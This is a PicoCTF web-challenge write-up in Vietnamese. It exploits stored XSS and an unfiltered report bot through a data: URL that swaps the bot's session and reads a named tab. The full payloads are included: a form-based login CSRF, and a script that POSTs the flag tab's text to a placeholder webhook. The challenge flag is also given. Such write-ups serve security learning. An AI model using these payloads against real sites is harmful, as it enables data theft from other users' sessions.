






# Write-up: PicoCTF - Web Challenge (XSS-reflected Session Swapping)

## 1. Tổng quan Challenge
Ứng dụng web có 2 chức năng chính:
* **New note:** Để tạo ghi chú mới.
* **Report:** Để bot (headless Chrome) truy cập vào URL do chúng ta truyền vào.

---

## 2. Phân tích mã nguồn

### notes.ejs

Dựa vào mã nguồn, phần `title` và `content` của note được render trực tiếp vào DOM mà không qua filter. Điều này dẫn đến lỗ hổng **Stored XSS**.

* Kiểm chứng: Truyền payload `<script>alert(1);</script>` vào nội dung note, alert thành công.
<img2>

### report.js

Khi gửi yêu cầu POST một URL ở phần report, bot sẽ khởi chạy dưới dạng headless Chrome:

1. Bot tự động đăng ký một tài khoản ngẫu nhiên.

2. Đi đến trang `/new` tạo một note chứa **Flag** rồi POST lên hệ thống.

3. Truy cập vào URL do ta truyền vào (không bị filter).

4. Đợi 7.5 giây rồi đóng trình duyệt.

### web.js


Hàm `POST /new` mà bot sử dụng sẽ tự động điều hướng người dùng đến trang `/notes`, nghĩa là Flag hiện đang nằm ở trang `/notes` của bot. 

Tuy nhiên, note được tạo dựa trên `user.id` (Session của từng user) và trang `GET /notes` cũng dựa vào id này để trả ra dữ liệu. Vì thế, ta không thể truy cập trực tiếp trang `/notes` của bot từ tài khoản của mình do khác session.

- Ở trên ta xác nhận /notes xảy ra XSS và /report để khiến bot fetch đến URL , và trang web thì actives theo user.id nên việc truyền url http://saturn.picoctf.net:49828/notes để bot thấy payload XSS do attacker tạo ra là không thể vì session 2 bên khác nhau
---

## ? Câu hỏi đặt ra
- khi mà web dựa trên session/user.id để tạo notes thì làm sao khiến bot gặp được payload do ta truyền vào để lấy được thông tin trang /note của bot và trích xuất flag ???

## 3. Ý tưởng khai thác

### step 1: Sử dụng data:// scheme
Giao thức truyền file trực tiếp vào URL dạng `data:[<media-type>][;base64],<data>`

Vì URL ở phần report không bị filter, ta có thể tận dụng giao thức `data:text/html,...` để truyền trực tiếp mã JS vào bot.

* Thử nghiệm: `data:text/html,<script>fetch('https://your-webhook.site')</script>`

  
* Kết quả: Webhook nhận được request -> Xác nhận giao thức `data://` hoạt động.

> tôi nghĩ nếu ta viết 1 đoạn mã HTML vào data:// để lấy dữ liệu trang /notes và gửi đến webhook thì sao ?
	đến đây tôi mới biết data:// dùng null origin vậy nên sẽ không đọc được DOM từ 1 trang có origin khác do SOP (same-origin policy)

### step 2: XSS Session Swapping via Window Name
Để giải quyết rào cản SOP, ta có thể lừa bot thực hiện chuỗi hành động sau:
1. Khiến bot mở một tab mới đặt tên là `"pico"` và truy cập vào trang `http://0.0.0.0:8080/notes` của chính nó (tab này chứa Flag và đúng Origin) vì bot chưa tắt trang này trước đó.
2. Khiến tab ban đầu (nơi dùng data://) của bot thực hiện đăng nhập (`POST /login`) vào tài khoản của Hacker (tài khoản này đã được tạo sẵn một Note chứa mã độc XSS).
3. Sau khi đăng nhập thành công vào tài khoản hacker, bot truy cập `/notes` và kích hoạt payload XSS. Lúc này, do cùng Origin với tab `"pico"`, mã XSS từ tài khoản hacker có thể đọc ngược dữ liệu từ tab của bot.

<details>
<summary><b>Browsing group context</b> <I>"click to more"</I></summary>

Kịch bản mở tab Bot (pico), đổi session sang Hacker rồi chạy XSS để dùng `window.open('', 'pico')` đọc ngược DOM hoạt động hoàn hảo trên Bot Chrome Headless (CTF/Lab) vì trình duyệt giả lập thường tắt cơ chế cô lập (`--disable-site-isolation`), cho phép các tab Cùng Origin + Biết Tên tự do chiếm quyền nhau. Tuy nhiên, trên trình duyệt thực tế, kỹ thuật này sẽ thất bại hoàn toàn do cơ chế Browsing Context Group (BCG) lập tức cô lập tiến trình và xóa bỏ liên kết tìm kiếm theo tên nếu không có mối quan hệ bộ nhớ (opener/reference) trực tiếp.
</details>

---
`Do trình độ của tôi có hạn nên việc xây dựng payload cho /report khá khoai nên vẫn cần có sự trợ giúp , không thì chắc vibe đến tết năm sau 😭`
## 4. Payload hoàn chỉnh

### Payload cho /notes (Đặt sẵn trong tài khoản Hacker)
```html
<script>
    var w = window.open("", "pico"); 

    fetch('[https://your-webhook.site](https://your-webhook.site)', {
        method: "POST",
        mode: "no-cors",
        body: w.document.body.innerText
    });
</script>
```
- cài XSS ở account hacker để lấy thông tin tab "pico"

### Payload gửi trong /report
```html
data:text/html,
<form action="[http://0.0.0.0:8080/login](http://0.0.0.0:8080/login)" method="POST" id="login_form" target="_blank">
    <input type="text" name="username" value="ad">
    <input type="text" name="password" value="ad">
</form>
<script>
    window.open("[http://0.0.0.0:8080/notes](http://0.0.0.0:8080/notes)", "pico"); 
    setTimeout(function() { login_form.submit() }, 1000); 
    setTimeout(function() { window.location="[http://0.0.0.0:8080/notes](http://0.0.0.0:8080/notes)" }, 2000);
</script>

```
- đầu tiên mở trang /notes chứa flag và gán tên tab là "pico"
- sau đó ở tab ban đầu login vào account hacker và đi đến /notes để gặp payload XSS


## 5.Flag
`Flag: picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}`
